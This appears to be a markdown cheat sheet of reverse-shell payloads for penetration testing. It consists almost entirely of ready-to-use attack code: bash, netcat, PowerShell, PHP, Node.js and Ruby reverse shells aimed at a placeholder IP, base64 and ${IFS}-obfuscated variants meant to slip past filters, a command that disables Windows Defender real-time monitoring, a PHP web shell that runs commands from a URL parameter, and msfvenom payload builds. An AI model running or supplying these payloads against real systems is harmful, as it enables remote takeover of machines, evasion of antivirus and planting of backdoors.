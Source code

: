 # Shells

- [Revshells](https://www.revshells.com/)
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

## Msfvenom

```bash
msfvenom -l payloads
```
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=443 -f elf > exploit
```

## Bash
[With Cyberchef](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')&input=YmFzaCAtaSA%2BJi9kZXYvdGNwLzEwLjEwLjEwLjEwLzQ0MyAwPiYx)
```bash
/bin/bash -i >& /dev/tcp/1.1.1.1/1235 0>&1
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.1.1.1 1234 >/tmp/f
```

```bash
{echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMTIzNSAwPiYx}|{base64,-d}|bash 
```

```bash
bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMTIzNSAwPiYx}|{base64,-d}|{bash,-i} 
```

```bash
echo${IFS}YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMTIzNSAwPiYx|base64${IFS}-d|bash
```

```bash
echo YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvMTIzNSAwPiYx | base64 -d | bash 
```

## Powershell
Maybe you can disable AV
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
### Base64
- [Revshells (Powershell #3 Base64)](https://www.revshells.com/)

[With Cyberchef](https://gchq.github.io/CyberChef/#recipe=Encode_text('UTF-16LE%20(1200)')To_Base64('A-Za-z0-9%2B/%3D')&input=JHNvY2tldCA9IE5ldy1PYmplY3QgU3lzdGVtLk5ldC5Tb2NrZXRzLlRDUENsaWVudCgnMTAuMTAuMTAuMTAnLDQ0Myk7IGlmKCRzb2NrZXQgLWVxICRudWxsKXtleGl0IDF9OyAkc3RyZWFtID0gJHNvY2tldC5HZXRTdHJlYW0oKTsgJHJlYWRlciA9IE5ldy1PYmplY3QgU3lzdGVtLklPLlN0cmVhbVJlYWRlcigkc3RyZWFtKTsgJHdyaXRlciA9IE5ldy1PYmplY3QgU3lzdGVtLklPLlN0cmVhbVdyaXRlcigkc3RyZWFtKTsgJHdyaXRlci5BdXRvRmx1c2g9JHRydWU7ICRwcm9tcHQgPSAnUFMgJyArICQoR2V0LUxvY2F0aW9uKSArICc%2BICc7ICR3cml0ZXIuV3JpdGUoJHByb21wdCk7IHdoaWxlKCR0cnVlKXsgJGRhdGEgPSAkcmVhZGVyLlJlYWRMaW5lKCk7ICRvdXRwdXQgPSAnJzsgdHJ5eyAkb3V0cHV0ID0gSW52b2tlLUV4cHJlc3Npb24gJGRhdGEgMj4mMSB8IE91dC1TdHJpbmcgfWNhdGNoeyAkb3V0cHV0ID0gJF8gfTsgJHdyaXRlci5Xcml0ZSgkb3V0cHV0ICsgJHByb21wdCkgfQ) ["Encode Text" UTF-16LE] -> [Base64]

```powershell
powershell -e JABzAG8AYwBrAGUAdAAgAD0AIABOAGUAdwAtAE8AYgBqA...
```

### Unencoded
```bash
$LHOST = "1.1.1.1"; $LPORT = 1242; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

```bash
$socket = New-Object System.Net.Sockets.TCPClient('1.1.1.1',1244); if($socket -eq $null){exit 1}; $stream = $socket.GetStream(); $reader = New-Object System.IO.StreamReader($stream); $writer = New-Object System.IO.StreamWriter($stream); $writer.AutoFlush=$true; $prompt = 'PS ' + $(Get-Location) + '> '; $writer.Write($prompt); while($true){ $data = $reader.ReadLine(); $output = ''; try{ $output = Invoke-Expression $data 2>&1 | Out-String }catch{ $output = $_ }; $writer.Write($output + $prompt) }
```



## PHP
- [p0wny-shell](https://github.com/flozz/p0wny-shell/tree/master)

```bash
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/1.1.1.1/1235 0>&1'");?>
```

```bash
php -r '$sock=fsockopen("1.1.1.1",1235);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```html
<html>
    <body>
        <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
        <input type="TEXT" name="cmd" id="cmd" size="80">
        <input type="SUBMIT" value="Execute">
        </form>
        <pre>
        <?php
            if(isset($_GET['cmd']))
            {
                system($_GET['cmd']);
            }
        ?>
        </pre>
    </body>
    <script>document.getElementById("cmd").focus();</script>
</html>
```

## Nodejs

```javascript
require('child_process').exec('nc -e /bin/bash 1.1.1.1 1235')
```

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(1235, "1.1.1.1", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```

## Ruby
```bash
ruby -rsocket -e'f=TCPSocket.open("1.1.1.1",1235).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## msfvenom
### Windows
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=1.1.1.1 lport=1235 -f aspx > shell.aspx
```
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=1.1.1.1 LPORT=1235 -f exe -o shell.exe
```
